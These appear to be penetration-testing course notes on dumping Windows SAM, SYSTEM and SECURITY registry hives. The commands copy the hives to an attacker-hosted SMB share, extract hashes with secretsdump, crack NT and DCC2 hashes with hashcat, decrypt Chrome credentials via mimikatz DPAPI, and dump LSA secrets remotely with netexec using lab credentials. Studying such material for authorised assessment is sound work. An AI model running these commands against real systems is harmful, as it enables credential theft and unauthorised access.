 With **administrative access** to a Windows system, we can attempt to quickly **dump the files associated with the SAM database**, transfer them to our attack host, and begin cracking the hashes offline.

# Registry hives
---
- There are **three registry hives we can copy** if we have local administrative access to a target system. 
- A brief description of each is provided in the table below:
	![[Pasted image 20250629080847.png]]

## Using reg.exe to copy registry hives
---
- By launching **`cmd.exe` with administrative privileges,** we can use `reg.exe` to save copies of the registry hives:
	- `reg.exe save hklm\sam C:\sam.save`
	- `reg.exe save hklm\system C:\system.save`
	- `reg.exe save hklm\security C:\security.save`
- If we're **only interested in dumping the hashes** of local users, we need **only `HKLM\SAM` and `HKLM\SYSTEM`.** 
- However, it's often useful to **save `HKLM\SECURITY` as well**, since it can contain **cached domain user credentials on domain-joined systems, along with other valuable data.**

## Creating a share with smbserver
---
- To create the share, we simply **run `impacket-smbserver -smb2support`, specify a name for the share** (e.g., `CompData`), **and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`)**

- The `-smb2support` flag ensures **compatibility with newer versions of SMB.**
	- `impacket-smbserver -smb2support CompData /home/ltnbob/Documents/`
- Moving hive copies to share (On Windows):
	- `move sam.save \\10.10.15.16\CompData`
	- `move security.save \\10.10.15.16\CompData`
	- `move system.save \\10.10.15.16\CompData`

# Dumping hashes with secretsdump
----
- `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`

- Notice that the first step `secretsdump` performs is **retrieving the `system bootkey` before proceeding to dump** the `local SAM hashes`.
- This is necessary because the bootkey is used to encrypt and decrypt the SAM database.

# Cracking hashes with Hashcat
---
- Once we have the hashes, we can begin cracking them using [Hashcat](https://hashcat.net/hashcat/).
- Running Hashcat against NT hashes:
	- ` sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
	  
- It is very common for **==users to reuse passwords across different work and personal accounts.==** **==Understanding and applying this technique can be valuable during assessments.==**

# DCC2 hashes
---
- **`hklm\security` contains cached domain logon information**, specifically in the **form of DCC2 hashes.** These are local, hashed copies of network credential hashes. An example is: `inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25`

- This type of hash is **much more difficult to crack than an NT hash, as it uses PBKDF2.**
- It **CANNOT be used for lateral movement with techniques like Pass-the-Hash**
- The Hashcat mode for cracking DCC2 hashes is `2100`:
	- `hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt`

# DPAPI
---
- In addition to the DCC2 hashes, we previously saw that the **`machine and user keys` for `DPAPI` were also dumped from `hklm\security`**
- The **Data Protection Application Programming Interface,** or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection), is a set of **APIs in Windows operating systems used to ==encrypt and decrypt data blobs on a per-user basis.==**
- These blobs are utilized by various Windows OS features and third-party applications.
	- ![[Pasted image 20250629165748.png]]
- DPAPI encrypted credentials **can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).**:
	- `mimikatz #`  `dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect`

# Remote dumping & LSA secrets considerations
---
- Dumping LSA secrets remotely:
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
- Dumping SAM Remotely:
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`
- Note:- **We can use impacket-secretsdump** to get **ALL** the possible credentials:
	- `impacket-secretsdump 'noodlesvc':'ch1ck3nnoodle'@10.10.10.15`